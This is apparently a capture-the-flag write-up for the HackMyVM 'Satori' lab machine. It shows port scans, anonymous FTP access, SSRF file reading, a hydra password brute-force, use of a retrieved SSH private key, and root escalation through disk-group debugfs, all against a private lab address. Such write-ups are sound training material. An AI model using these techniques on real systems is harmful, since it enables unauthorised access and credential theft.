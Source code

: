 ```yaml
---
title: "Satori"
author: am-a-circle
date: 2022-03-16 12:00:00 +0800
categories: [hackmyvm,mediumm]
tags: [OSINT,Disk Group]
math: false
mermaid: false
---
```


## Overview

A vulnerable machine that is very OSCP like. Think outside the box, enumerate at places you don't usually do and understanding of exploiting the vulnerability to do a LFI. 

|Box Difficulty| Link|
|--|--|
| Medium | [HackmyVM](https://hackmyvm.eu/machines/machine.php?vm=Satori) |

## Recon


```bash
┌──(root💀kali)-[/opt/hackmyv/satori]
└─# masscan -p1-65535,U:1-65535 192.168.56.69 --rate=1000 
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-03-19 12:44:43 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 192.168.56.69                                   
Discovered open port 21/tcp on 192.168.56.69                                   
Discovered open port 22/tcp on 192.168.56.69   
```


Enumerate ports that were found to be open:

```bash
┌──(root💀kali)-[/opt/hackmyv/satori]
└─# nmap -sVC -Pn -p 21,22,80 192.168.56.69
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-19 08:48 EDT
Nmap scan report for 192.168.56.69
Host is up (0.00010s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 0        0        10296404 Mar 03  2021 satori.mkv [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.56.70
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fd:07:48:a4:a2:91:7d:bf:e8:2c:2d:39:7d:21:fe:8a (RSA)
|   256 d5:f1:45:5d:d4:3e:2e:63:25:e3:0e:d0:21:0d:23:15 (ECDSA)
|_  256 e8:78:20:63:0d:23:2f:83:42:8f:14:68:c1:24:32:e4 (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-title: youtube-downloader
|_http-server-header: nginx/1.14.2
MAC Address: 08:00:27:7E:43:28 (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.16 seconds
```

We can see that there is an anonymous account on the FTP server.
Additionally, http is hosting a nginx 1.14.2, application called youtube-downloader.

Begin enumeration.

## FTP - TCP 21

Enumerate the anonymous FTP account to find a `.mkv`. Honestly, a dead end which shows an interesting video if you get there :) However, further enumeration shows nothing interesting.
```bash
┌──(root💀kali)-[/opt/hackmyv/satori]
└─# ftp anonymous@192.168.56.69                                                                                                                     
Connected to 192.168.56.69.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||21604|)
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0        10296404 Mar 03  2021 satori.mkv
226 Directory send OK.
ftp> get satori.mkv
local: satori.mkv remote: satori.mkv
229 Entering Extended Passive Mode (|||55943|)
150 Opening BINARY mode data connection for satori.mkv (10296404 bytes).
100% |*********************************************************************************************************************************************************| 10055 KiB  218.87 MiB/s    00:00 ETA
226 Transfer complete.
10296404 bytes received in 00:00 (217.63 MiB/s)
ftp> exit
221 Goodbye.
                                                                                                                                                                                                      
┌──(root💀kali)-[/opt/hackmyv/satori]
└─# ls -la 
total 10072
drwxr-xr-x 2 root root     4096 Mar 19 08:50 .
drwxr-xr-x 3 root root     4096 Mar 19 08:43 ..
-rw-r--r-- 1 root root 10296404 Mar  3  2021 satori.mkv
```

## HTTP- TCP 80

Website Enum:

```bash
┌──(root💀kali)-[/opt/hackmyv/satori]
└─# gobuster dir -u http://192.168.56.69:80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -e -k -s "200,204,301,302,307,403,500" -x "txt,html,php,jsp" -o gobuster_p80.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.69:80
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,html,php,jsp
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2022/03/19 08:48:06 Starting gobuster in directory enumeration mode
===============================================================
http://192.168.56.69:80/index.html           (Status: 200) [Size: 1739]
http://192.168.56.69:80/stream.php           (Status: 200) [Size: 15]  
                                                                       
===============================================================
2022/03/19 08:49:24 Finished
===============================================================
```

We can see a Youtube Downloader application from [here](https://github.com/Athlon1600/youtube-downloader).
![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori1.png)
Further enumeration shows that there exist a SSRF vulnerability :

![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori2.png)
![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori3.png)
POC:

![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori4.png)
Great we got a SSRF! From [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#file) , we know that we can try to read the localhost File by supplying the below:
![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori5.png)
After enumerating the `/etc/passwd` file there is only a user called **yana** .
![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori7.png)

## Shell as Yana

Trying to SSH into yana show's that we need its publickey to access the server.
```bash
┌──(root💀kali)-[/opt/hackmyv/satori]
└─# ssh yana@192.168.56.69                                                                                         
The authenticity of host '192.168.56.69 (192.168.56.69)' can't be established.
ED25519 key fingerprint is SHA256:qOlHItKY4wk+MzNIJgzvdD3C17EaDA1k/uYmSNfmhAk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.69' (ED25519) to the list of known hosts.
yana@192.168.56.69: Permission denied (publickey).
```
Enumerating the FTP server with user yana allow us to find the password through a bruteforce attack!
```bash
┌──(root💀kali)-[/opt/hackmyv/satori]
└─# hydra -t 64 -l yana -P /usr/share/wordlists/rockyou.txt 192.168.56.69 ftp                                           
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-19 09:31:09
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ftp://192.168.56.69:21/
[21][ftp] host: 192.168.56.69   login: yana   password: XXXXX
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 10 final worker threads did not complete until end.
[ERROR] 10 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-03-19 09:31:59
```

Enumerating the ftp server shows what we a need, a `id_rsa` under the .ssh server.
![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori9.png)


Download the file and we are in!
```bash
┌──(root💀kali)-[/opt/hackmyv/satori]
└─# chmod 600 id_rsa                              
                                                                                                                               
┌──(root💀kali)-[/opt/hackmyv/satori]
└─# ssh yana@192.168.56.69 -i id_rsa 
Linux satori 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar  3 06:25:56 2021 from 192.168.1.58
yana@satori:~$ 
```



## Shell as Root

Running linpeas shows that user yana is under the `Disk` group which has a common privs escalation technique! 
![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori10.png)
Based on [hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe#disk-group):

> This privilege is almost **equivalent to root access** as you can
> access all the data inside of the machine.
> Note that using debugfs you can also **write files**. For example to copy `/tmp/asd1.txt` to `/tmp/asd2.txt`.


Execute the vulnerability and enumerate, we find a private key for the root user:
![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori11.png)
![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori12.png)
Rooted:
![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori13.png)

